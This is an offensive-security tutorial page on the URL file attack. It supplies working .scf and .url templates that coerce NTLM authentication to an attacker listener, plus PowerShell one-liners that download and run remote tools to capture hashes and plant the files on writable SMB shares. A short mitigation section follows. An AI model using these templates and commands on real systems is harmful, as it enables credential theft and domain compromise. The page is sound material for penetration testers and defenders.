 ## Description

A URL file attack is a type of network-based exploit that manipulates certain file formats to deceive systems into revealing sensitive information, such as NTLM hashes. This attack exploits the behaviour of URL files (.url), shell command files (.scf), and other file types to initiate connections to an adversary-controlled listener.

An adversary generates files with specific content that directs systems to a network resource managed by the attacker. These files can be of different types, such as .url, .scf, or .lnk:

* **.url File:** A shortcut file that contains a URL pointing to a remote server.
* **.scf File:** A Shell Command File configured to initiate a connection to a remote server.
* **.lnk File:** A Windows shortcut file crafted to point to a remote server.

The attacker distributes these malicious files to potential victims through email attachments, file-sharing services, or other means. When a victim interacts with the file (e.g., opening the file or even just viewing it within explorer), the file triggers the system to connect to the remote server specified in the file.

During the connection attempt, the victim’s system tries to authenticate with the remote server using NTLM (Windows authentication protocol). The attacker’s server captures the NTLM hash, which can then be used for further attacks, such as pass-the-hash attacks.

This document covers delivery through means of SMB shares.

## File Templates

```Powershell 
[Shell]
Command=2
IconFile=\\[Listener-IP]\share\icon.ico
[Taskbar]
Command=ToggleDesktop
```

```Powershell
[InternetShortcut]
URL=\\[Listener-IP]\share
```

## Performing the Attack from Windows

### Tools Required

* Inveigh: [https://github.com/Kevin-Robertson/Inveigh](https://github.com/Kevin-Robertson/Inveigh)
* Invoke-ShareHunter (Optional): [https://github.com/Leo4j/Invoke-ShareHunter](https://github.com/Leo4j/Invoke-ShareHunter)

### Permissions Required

* Local Administrator (If using Inveigh to capture hashes)
* Write permissions over a SMB share

Load Inveigh and configure listener

```powershell
IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1")

# Load Inveigh and set listener IP (Attack System)
Invoke-Inveigh -ConsoleOutput Y -HTTPS Y -IP 10.10.10.7
```

```powershell
IEX (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Invoke-ShareHunter/main/Invoke-ShareHunter.ps1')

# Identify writeable shares within the domain
Invoke-ShareHunter -Domain security.local

# Write NTLM coercion files to identified writeable shares
Invoke-URLFileAttack -WritableShares "C:\Users\StandardUser\Shares_Writable.txt"
```

**Writing files to writeable shares**

![](../../Assets/Pasted%20image%2020250619212529.png)

**Later, a user browses to a share containing the crafted files and a NTLM hash is captured on the listener**

![](../../Assets/Pasted%20image%2020250619212707.png)

From this point, various opportunity exists to perform further compromise. The captured Hash may be cracked to reveal the underlying account password or the hash may be relayed using tools such as ntlmrelayx.;

## Mitigation

**Disable NTLM Authentication**

Disabling NTLM authentication within the domain is the most effective defence against this type of attack and other NTLM coercion-based attacks. However, it is understandable that disabling NTLM authentication within an enterprise may not be easily or quickly achievable for many organizations. In such cases, additional mitigations can be implemented. While these additional measures may not completely eliminate the attack vector, they can offer a degree of protection against this type of attack.

Reference: [https://techcommunity.microsoft.com/t5/core-infrastructure-and-security/active-directory-hardening-series-part-1-disabling-ntlmv1/ba-p/3934787](https://techcommunity.microsoft.com/t5/core-infrastructure-and-security/active-directory-hardening-series-part-1-disabling-ntlmv1/ba-p/3934787)

**Audit and restrict SMB share permissions**

URL file attacks are possible when an adversary controlled account has write access to SMB shares within the domain. The best defence here is to audit all SMB shares and remove unexpected or overly permissive write permissions from accounts that do not require that level of access. Broadly, domain user accounts often have write access to an undesirable number of shares within the enterprise and should be revoked.

## References

* [https://www.scip.ch/en/?labs.20210909](https://www.scip.ch/en/?labs.20210909)
* [https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication](https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication)

# Resources

- https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication#execution-via-.scf

- [URL File Attack | Pentest Everything](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/forced-coercion/url-file-attack)